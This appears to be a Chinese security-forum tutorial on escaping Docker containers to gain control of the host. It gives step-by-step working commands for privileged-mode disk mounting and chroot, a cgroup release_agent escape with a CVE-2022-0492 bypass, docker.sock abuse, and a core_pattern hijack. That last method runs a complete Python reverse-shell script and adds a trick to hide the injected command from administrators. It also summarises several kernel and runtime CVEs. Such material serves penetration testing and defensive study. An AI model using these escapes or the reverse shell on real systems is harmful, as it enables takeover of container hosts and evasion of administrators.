




# Docker 逃逸技术 - 先知社区

Docker 逃逸技术

- - -

## privileged 特权模式直接挂载目录

在 Docker 容器启动时如果添加了 `--privileged`参数，就会以特权模式启动 docker。  
即具备所有的**Capabilities**

```bash
docker run -it --rm --privileged ubuntu /bin/bash
```

在容器中可以通过`cat /proc/self/status | grep CapEff` 来判断容器是否以特权模式启动

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131230048-8490b946-c049-1.png)

如果是特权模式的话，CapEff 对应的值为**0000003fffffffff**

通过`capsh`可以看到其所具有的 capability 权限

如：`capsh --decode=0000003fffffffff`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131230140-a3831876-c049-1.png)

以特权模式运行的 docker 容器具有所有的 capability 权限，即可以访问所有 device 以及具有挂载的草走权限。  
此时可以先将其挂载到容器中，然后使用`chroot`获取一个以宿主机根目录为根目录的`shell`来拿到宿主机的权限。

```bash
mkdir /pwn
mount /dev/sda1 /pwn
chroot /pwn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131230207-b3b436a8-c049-1.png)

此时即可访问宿主机下的所有文件  
也可以挂载到`/etc`写计划任务进行弹 shell 拿宿主机权限

## notify\_on\_release 机制逃逸

### 攻击流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131230237-c5b0d21c-c049-1.png)

### cgroup 机制

cgroup 机制即在 cpu，内存和硬件等资源方面实现隔离

notify\_on\_release 逃逸会用到 cgroup 的隔离机制，cgroups 为每种可以控制的资源定义了一个子系统：

-   子系统 (subsystem) 一个子系统就是一个资源控制器，比如 cpu 子系统就是控制 cpu 时间分配的一个控制器
-   层级 (hierachy) 子系统必须 attach 到一个层级上才起作用
-   控制组群 (control group) cgroups 中的资源控制都是以控制组群为单位实现。
-   任务 (task) 即系统的一个进程，控制组群所对应的目录中有一个`tasks`文件，将进程 ID 写进该文件，该进程就会受到该控制组群的限制

在 Linux 中 cgroups 的实现形式为一个文件系统，可以通过`mount -t cgroup`看到 cgroup 的挂载情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131230414-ff1e7ac2-c049-1.png)

可以看到 cgroup 提供了很多子系统，包括 cpu，devices，blkio 等

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131230453-16b85f9a-c04a-1.png)

几个重要的文件：

`cgroup.procs`：罗列所有在该 cgroup 中的 TGID（线程组 ID），即线程组中第一个进程的 PID

`tasks`：罗列了所有在该 cgroup 中任务的 TID，即所有进程或线程的 ID

`notify_on_release`：0 或 1，表示是否在 cgroup 中最后一个任务退出时通知运行 release agent，默认情况下是 0，表示不运行

如果 notify\_on\_release 的值为 1，cgroup 下所有 task 结束的时候就会自动运行 root cgroup 下 release\_agent 文件中的对应路径的文件。需要注意的是运行的 release\_agent 所对应的文件路径需要是宿主机的。

### 利用原理

要想利用 cgroup 机制进行 docker 逃逸，首先需要对 cgroup 可写，并且有可执行的 release\_agent 文件，而且 release\_agent 文件位于宿主机下，因为最后是宿主机运行 release\_agent 文件。

实际上整个 Docker 容器在运行中默认使用的存储方式为 OverlayFS 文件系统，默认使用的驱动是 overlay2。

OverlayFS 将单个 Linux 主机上的两个目录合并成一个目录。这些目录被称为层，统一过程被称为联合挂载。OverlayFS 底层目录称为 lowerdir，高层目录称为 upperdir。

`lowerdir`一般存储的是镜像相关的层，`upperdir`一般存储的是运行中的未提交容器层，它们都被挂载到了宿主机的文件系统中。

具体可参考：[https://blog.csdn.net/zhonglinzhang/article/details/80970411](https://blog.csdn.net/zhonglinzhang/article/details/80970411)

在容器内部，可以通过`/etc/mtab`文件来找到容器对应的`lowerdir`和`upperdir`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131231712-cf4fd9ce-c04b-1.png)

Exp:

1.创建目录并挂载 cgroup

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```

2.在 rdma 子系统下创建一个自定义子系统

```bash
mkdir /tmp/cgrp/x
```

3.将刚刚创建的 x 子系统中的 `notify_on_release` 文件配置为 1 用来在**全部进程都退出该 cgroup 子系统后触发内核调用 release\_agent**

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```

4.获取 upper\_dir

```bash
host_path=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`
```

5.在容器内部创建 payload

```bash
echo '#!/bin/sh' > /cmd
echo "touch /pwned" >> /cmd
chmod a+x /c m d
```

6.设置 release\_agent

```bash
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

7.添加一个**执行后就退出的进程**到新创建的 cgroup 子系统中来触发 notify\_on\_release

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131231800-eb7475d8-c04b-1.png)

### bypass sys\_admin (CVE-2022-0492)

只需要关闭 AppArmor 和 Seccomp 即可成功利用

```bash
docker run --security-opt apparmor=unconfined --security-opt seccomp=unconfined ubuntu bash
```

此时系统不允许将内核相关的虚拟文件系统 mount 到用户目录下

新建个 Namespace 来个 Namespace 嵌套 Namespace，并且重新定义一些资源隔离，让新建的 Namespace 又误以为是一个新的环境即可绕过

使用 unshare 创建一个 namespace 即可

```bash
unshare -UrmC test
mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup
```

剩下的操作就和之前一样了

该漏洞影响 v2.6.24-rc1 及以上 Linux 内核版本，修复版本为 v5.17-rc3 及以上内核版本，修复补丁限制了 release\_agaent 的权限

实际上这是 linux 内核的洞而非 docker 的洞

## 重写 devices.allow 逃逸

devices 子系统用于配置允许或阻止 cgroup 中的 task 访问某个设备，起到黑白名单的作用

主要包含以下文件：

-   device.allow : cgroup 中的 task 能够访问的设备列表，格式为 type major:minor access  
    type 表示类型，可以为 a(all) c(char) b(block)
    
    major:minor 代表设备编号
    
    accss 表示访问方式，可以为 r(read),w(write), m(mknod) 的组合
    
-   devices.deny：cgroup 中任务不能访问的设备，和上面的格式相同
    
-   devices.list：列出 cgroup 中设备的黑名单和白名单
    

### 攻击流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131231841-04555f9a-c04c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131231924-1e014922-c04c-1.png)

debugfs 写  
可以参考：[https://fun0nydg.github.io/2021/06/19/The-role-of-debugfs-in-container-escape.html](https://fun0nydg.github.io/2021/06/19/The-role-of-debugfs-in-container-escape.html)

使用 mount 挂载：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131231953-2ef84456-c04c-1.png)

## docker.sock 挂载逃逸

Docker 中 client 和 server 的通信默认使用 docker.sock，当容器中进程需要与 Docker daemon 进行通信时，容器需要挂载/var/run/docker.sock 文件

### 利用原理

当容器访问 docker socket 时，我们可通过与 docker daemon 的通信对其进行恶意操纵完成逃逸。若容器 A 可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，创建运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机

### 攻击流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131232106-5a85d610-c04c-1.png)

```bash
docker run -it -v /var/run/:/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131232320-aa4a9eec-c04c-1.png)

## 挂载/proc

linux 的/proc 是一个伪文件系统，当容器启动时将/proc 目录挂载到容器内部时就可以实现逃逸

`/proc/sys/kernel/core_pattern`文件是负责进程奔溃时内存数据转储的，当第一个字符是`|`管道符时，后面的的部分会以命令行的方式进行解析并运行，并且由于容器共享主机内核的原因，这个命令是以宿主机的权限运行的。

由于管道符的原因，错误的数据可能会扰乱我们的命令，因此这里用 python 接受并且忽略错误数据。

```bash
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```

找到当前容器在宿主机下的绝对路径：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131232455-e35a818e-c04c-1.png)

创建一个反弹 shell 的 python 脚本：

```bash
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "127.0.0.1"
lport = 2333
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   s.close()
if __name__ == "__main__":
   main()
```

并且创建一个会抛出段错误的程序

然后在`core_pattern`文件中写入运行反弹 shell 的命令（这里需要注意由于是以宿主机上的权限运行的，因此 python 的路径则也是 docker 目录的路径）

```bash
echo -e "|$host_path/test.py \rcore    " >  /host-proc/sys/kernel/core_pattern
```

`\r`之后的内容主要是为了为了管理员通过`cat`命令查看内容时隐蔽我们写入恶意命令。  
这样当我们运行 c 文件之后，就会抛出段错误，然后执行`core_pattern`中的命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131232020-3f009c4a-c04c-1.png)

## 程序漏洞 & 内核漏洞

#### runC 容器逃逸漏洞 CVE-2019-5736

Docker 18.09.2 之前的版本中使用了的 runc 版本小于 1.0-rc6，因此允许攻击者重写宿主机上的 runc 二进制文件，攻击者可以在宿主机上以 root 身份执行命令。  
利用条件：  
Docker 版本 < 18.09.2，runc 版本< 1.0-rc6，一般情况下，可通过 docker 和 docker-runc 查看当前版本情况

#### Docker cp 命令容器逃逸攻击漏洞 CVE-2019-14271

当 Docker 宿主机使用 cp 命令时，会调用辅助进程 docker-tar，该进程没有被容器化，且会在运行时动态加载一些 libnss*.so 库。黑客可以通过在容器中替换 libnss*.so 等库，将代码注入到 docker-tar 中。当 Docker 用户尝试从容器中拷贝文件时将会执行恶意代码，成功实现 Docker 逃逸，获得宿主机 root 权限

#### DirtyCow(CVE-2016-5195) 脏牛

Dirty Cow（CVE-2016-5195）是 Linux 内核中的权限提升漏洞，通过它可实现 Docker 容器逃逸，获得 root 权限的 shell。

Docker 与 宿主机共享内核，因此容器需要在存在 dirtyCow 漏洞的宿主机里。

#### DirtyPipe(CVE-2022-0847) 脏管道

Dirtypipe 漏洞允许向任意可读文件中写数据，可造成非特权进程向 root 进程注入代码
